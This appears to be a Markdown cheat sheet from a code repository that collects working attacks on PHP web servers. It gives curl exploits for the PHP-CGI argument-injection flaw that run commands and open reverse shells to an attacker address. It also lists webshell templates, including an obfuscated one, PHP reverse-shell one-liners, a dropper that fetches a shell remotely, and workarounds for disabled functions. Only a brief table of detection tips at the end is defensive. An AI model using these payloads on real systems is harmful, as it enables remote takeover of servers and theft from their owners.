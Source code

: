
# .. consolidated ..


— — — **Basic RCE Proof** — — —
```bash
curl -i -X POST \
  "http://HOST/cgi-bin/php-cgi?%ADd+auto_prepend_file%3Dphp://input" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-binary "whoami"
```

— — — **Simple PHP One-Liner Shell** — — —
```bash
curl -X POST \
  "http://HOST/cgi-bin/php-cgi?%ADd+auto_prepend_file%3Dphp://input" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-binary 'php -r '\''echo "[START]"; system("uname -a"); echo "[END]";'\'''
```

— — — **Bash TCP Reverse Shell** — — —
```bash
# Listener on attacker:
nc -lvnp PORT

# In pod (if bash exists):
curl -X POST \
  "http://HOST/cgi-bin/php-cgi?%ADd+auto_prepend_file%3Dphp://input" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-binary "bash -i >& /dev/tcp/ATT_IP/PORT 0>&1"
```

— — — **Sh FIFO Reverse Shell** — — —
```bash
nc -lvnp PORT

curl -X POST \
  "http://HOST/cgi-bin/php-cgi?%ADd+auto_prepend_file%3Dphp://input" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-binary "rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATT_IP PORT > /tmp/f"
```

— — — **Sh TCP Loop Reverse Shell** — — —
```bash
nc -lvnp PORT

curl -X POST \
  "http://HOST/cgi-bin/php-cgi?%ADd+auto_prepend_file%3Dphp://input" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-binary "(exec 5<>/dev/tcp/ATT_IP/PORT; while read cmd <&5; do \$cmd 2>&5 >&5; done) &"
```

— — — **PHP proc_open() Reverse Shell** — — —
```bash
nc -lvnp PORT

curl -X POST \
  "http://HOST/cgi-bin/php-cgi?%ADd+auto_prepend_file%3Dphp://input" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-binary 'php -r '\''$s=fsockopen("ATT_IP",PORT);if(!$s)exit;proc_open("/bin/sh",[0=>$s,1=>$s,2=>$s],$pipes);'\'''
```

— — — **Detach with nohup** — — —
```bash
nc -lvnp PORT

curl -X POST \
  "http://HOST/cgi-bin/php-cgi?%ADd+auto_prepend_file%3Dphp://input" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-binary "nohup sh -i >& /dev/tcp/ATT_IP/PORT 0>&1 &"
```

**Tips:**
- Always URL-encode the payload header `%ADd+auto_prepend_file%3Dphp://input`.  
- Ensure your listener is running before firing the curl.  
- Use `stty sane; reset` on your terminal if it gets messed up after a shell.  

These variations cover most environments (bash, sh, pure PHP) and ensure you get a stable, detached reverse shell.

##


# PHP Shells & Reverse Shells Playbook

A practical red/blue/purple team reference for using and detecting PHP-based shells in web environments.

---

## 📄 Webshell Templates

### Minimal GET Shell

```php
<?php system($_GET['cmd']); ?>
```

### Multi-function Shell

```php
<?php
$cmd = $_GET['cmd'];
if (function_exists('system')) system($cmd);
elseif (function_exists('passthru')) passthru($cmd);
elseif (function_exists('shell_exec')) echo shell_exec($cmd);
elseif (function_exists('exec')) { exec($cmd, $o); echo implode("\n", $o); }
?>
```

### Eval Shell

```php
<?php eval($_REQUEST['x']); ?>
```

### Obfuscated Var Shell

```php
<?php $c = "sy"."stem"; $c($_GET['cmd']); ?>
```

---

## 🚨 Reverse Shell One-Liners (PHP CLI)

> Start listener: `nc -lvnp PORT`

### fsockopen

```bash
php -r '$s=fsockopen("ATT_IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### proc\_open

```bash
php -r '$s=fsockopen("ATT_IP",PORT);proc_open("/bin/sh", array(0=>$s, 1=>$s, 2=>$s), $pipes);'
```

### popen

```bash
php -r '$s=fsockopen("ATT_IP",PORT);popen("/bin/sh","r");'
```

### bash via system

```bash
php -r 'system("bash -c 'bash -i >& /dev/tcp/ATT_IP/PORT 0>&1'");'
```

### base64-encoded

```bash
php -r 'eval(base64_decode("..."));'
```

---

## 💾 File Drop / Fetch

### Write shell to disk

```php
file_put_contents("/var/www/html/shell.php", "<?php system(\$_GET['cmd']); ?>");
```

### Fetch shell remotely

```bash
php -r 'file_put_contents("dropper.php", file_get_contents("http://ATT_IP/shell.php"));'
```

---

## ⛔ When Functions Are Disabled

Fallbacks to try if `system`, `exec`, etc. are disabled:

```php
shell_exec('id');
passthru('id');
assert($_POST['x']);
eval(base64_decode($_POST['x']));
```

If all else fails:

* LFI + log injection
* Upload shell via image metadata (Exif)

---

## 🚡 Blue Team Detection Tips

| Indicator                | Source           | Defense                          |
| ------------------------ | ---------------- | -------------------------------- |
| `fsockopen`, `proc_open` | `php.ini` config | Disable with `disable_functions` |
| Long-running PHP process | `ps`, `lsof`     | Monitor children of apache/nginx |
| Shell-like access        | Web logs         | Monitor for `?cmd=` patterns     |
| Outbound TCP             | Netflow/SIEM     | Alert on unknown egress IPs      |

---

## 🧪 Purple Team Playbook Ideas

* Simulate shell drop with dummy IP
* Inject variants into WAF to test detection
* Replay shell input/output into a SIEM
* Confirm SOC alerting on shell process trees



